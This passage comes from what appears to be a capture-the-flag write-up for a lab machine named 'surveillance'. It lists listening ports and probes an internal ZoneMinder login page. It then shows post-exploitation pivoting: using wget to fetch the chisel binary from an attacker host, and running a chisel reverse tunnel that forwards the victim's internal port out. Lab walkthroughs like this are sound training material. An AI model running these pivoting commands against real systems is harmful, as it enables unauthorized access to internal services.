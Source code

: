 ```
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:3306          0.0.0.0:*               LISTEN      -                   
tcp        0      0 0.0.0.0:80              0.0.0.0:*               LISTEN      1105/nginx: worker  
tcp        0      0 127.0.0.1:8080          0.0.0.0:*               LISTEN      1105/nginx: worker  
tcp6       0      0 :::22                   :::*                    LISTEN      -
```
### Examining ZoneMinder internal webserver
A quick curl check shows this is a web server:
```
www-data@surveillance:/tmp$ curl localhost:8080
<!DOCTYPE html>
<html lang="en">
<head>
  <meta charset="utf-8">
  <meta http-equiv="X-UA-Compatible" content="IE=edge">
  <meta name="viewport" content="width=device-width, initial-scale=1">
  <title>ZM - Login</title>
<...SNIP...>
```
We can pivot to view this using `chisel`. First, downloading chisel from my kali host:
```
www-data@surveillance:/tmp/ch$ wget 10.10.14.102/chisel
--2024-05-01 02:20:18--  http://10.10.14.102/chisel
Connecting to 10.10.14.102:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 8654848 (8.3M) [application/octet-stream]
Saving to: 'chisel'

chisel              100%[===================>]   8.25M  6.81MB/s    in 1.2s    

2024-05-01 02:20:19 (6.81 MB/s) - 'chisel' saved [8654848/8654848]

www-data@surveillance:/tmp/ch$ chmod +x chisel
```
Then on kali's chisel, establish reverse server:
```bash
 ./chisel server -p 8000 --reverse
```
Now on the victim box, establish the port forwarding:
```
./chisel client 10.10.14.102:8000 R:8080:127.0.0.1:8080
```
Now when we visit localhost:8080, we are able to view the internal web port:
